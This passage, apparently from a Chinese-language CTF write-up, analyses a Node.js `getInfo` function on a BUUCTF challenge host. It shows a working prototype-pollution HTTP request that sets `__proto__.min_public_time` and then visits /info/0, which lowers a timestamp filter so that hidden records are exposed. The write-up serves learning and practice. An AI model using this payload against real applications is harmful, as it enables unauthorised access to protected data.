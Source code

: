 接着看`getInfo`函数

```javascript
async function getInfo(timestamp) {
    timestamp = typeof timestamp === "number" ? timestamp : Date.now();
    // Remove test data from before the movie was released
    let minTimestamp = new Date(CONFIG.min_public_time || DEFAULT_CONFIG.min_public_time).getTime();
    timestamp = Math.max(timestamp, minTimestamp);
    const data = await sql.all(`SELECT wishid, date, place, contact, reason, timestamp FROM wishes WHERE timestamp >= ?`, [timestamp]).catch(e => { throw e });
    return data;
}
```

将我们传入的`ts`的值，赋值给`timestamp`

而在`getInfo`函数中,`timestamp = Math.max(timestamp, minTimestamp);`取一个最大的值

`let minTimestamp = new Date(CONFIG.min_public_time || DEFAULT_CONFIG.min_public_time).getTime();`，这里用的是`||`

而且config里面没有`min_public_time`这个属性，那么这里就是一个污染点

![image-20240327211541027](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240327211541027.png)

payload

```http
POST /submit HTTP/1.1
Host: d537bd54-f21f-4d58-8d85-2b346bf42e78.node5.buuoj.cn:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://d537bd54-f21f-4d58-8d85-2b346bf42e78.node5.buuoj.cn:81/
Content-Type: application/json
Content-Length: 102
Origin: http://d537bd54-f21f-4d58-8d85-2b346bf42e78.node5.buuoj.cn:81
Connection: close

{
	"date":"",
	"place":"",
	"contact":"1",
	"reason":"1",
	"__proto__":{
		"min_public_time":"1001-01-01"
	}
}
```

这里`"contact":"1","reason":"1",`是必须有的

然后访问`/info/0`
